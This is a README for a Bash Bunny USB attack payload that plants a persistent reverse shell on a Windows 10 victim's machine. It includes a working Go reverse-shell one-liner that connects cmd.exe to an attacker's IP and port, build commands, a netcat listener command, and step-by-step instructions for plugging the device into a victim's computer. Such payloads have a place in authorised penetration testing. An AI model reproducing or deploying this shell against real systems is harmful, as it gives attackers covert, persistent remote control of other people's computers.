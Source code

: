 # Windows Reverse Shell for Bash Bunny using Golang

* Author: heywoodlh
* Version: 1.5

## Description

Opens a reverse shell using a compiled binary on staging machine and connects Windows victim machine back to remote attacking machine.
* Targets 64 bit Windows 10
* Deploys in roughly 15-20 seconds
* If desired, the reverse shell can be persistent

## Requirements

- Have a working Bash Bunny
- Have Golang installed on your staging machine

## STATUS

| LED                  | STATUS                         |
| -------------------- | ------------------------------ |
| Purple               | Setup                          |
| Amber (Single Blink) | Installing and running scripts |
| Green                | Finished                       |

## Installation and Execution

### Staging:

1. Plug in Bash Bunny in arming mode
2. Move files from WindowsReverseShell to either switch folder
3. Create a binary for the reverse shell

This example assumes the staging machine is a Unix/Unix-like machine with Golang installed and using a POSIX shell:

```bash
remote_ip="127.0.0.1"
remote_port="1337"


echo "package main;import \"time\";import\"os/exec\";import\"net\";func connect(){c,_:=net.Dial(\"tcp\",\"${remote_ip}:${remote_port}\");cmd:=exec.Command(\"cmd.exe\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}; func main(){for {connect();time.Sleep(10 * time.Second)}}" > /tmp/t.go &&\
	GOOS="windows" go build -o /tmp/shell.exe /tmp/t.go &&\
	rm /tmp/t.go
```

Then copy the resulting `/tmp/shell.exe` file to the switch folder on the Bash Bunny.

4. Edit the `run.ps1` file: edit the `$persistence` and `$volumeName` variables as desired
5. Unplug Bash Bunny and switch it to the position the payload is loaded on

### Attack:
1. Plug the Bash Bunny into your victim's Windows machine and wait until the final light turns green (about 15-20 seconds)
2. Unplug after the light turns green as the payload has been executed
3. On the remote attacking machine, set up a Netcat listener on the port you chose in the `run.ps1` file
   * Run the command `nc -nlvp 1337` (replace the port with the same in run.ps1)
4. A `cmd.exe` shell should appear

Notes: 
- If you set `$persistence` to 'True' in `run.ps1` then the script should always be running anytime the user is logged into their machine.

## Discussion

For support or feedback on the original Windows persistent reverse shell [go here](https://forums.hak5.org/topic/42729-payload-windows-persistent-reverse-shell/)

For support or feedback on heywoodlh's modified version [go here](https://github.com/heywoodlh/bash-bunny-examples/issues)
